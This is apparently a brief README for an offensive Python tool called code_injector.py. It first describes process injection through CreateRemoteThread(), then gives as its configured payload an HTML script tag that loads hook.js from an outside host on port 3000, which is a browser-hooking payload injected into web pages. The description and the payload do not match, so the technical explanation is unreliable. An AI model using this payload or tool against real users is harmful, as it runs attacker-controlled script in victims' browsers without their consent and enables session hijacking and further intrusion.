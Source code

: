 A code injector is a technique for injecting standalone code into another process and then executing it. It is also called Thread injection because it is usually executed as a remote thread using the CreateRemoteThread() API, and the program is the one injecting the malicious code.

usage :
ex) python code_injector.py

*********************Cautions when using the program**********************
When using the program, you need to specify the code to be injected.
 injection_code = '<script src="http://myhomepage.com:3000/hook.js"></script>'
--> Please specify the code to be injected by the user.

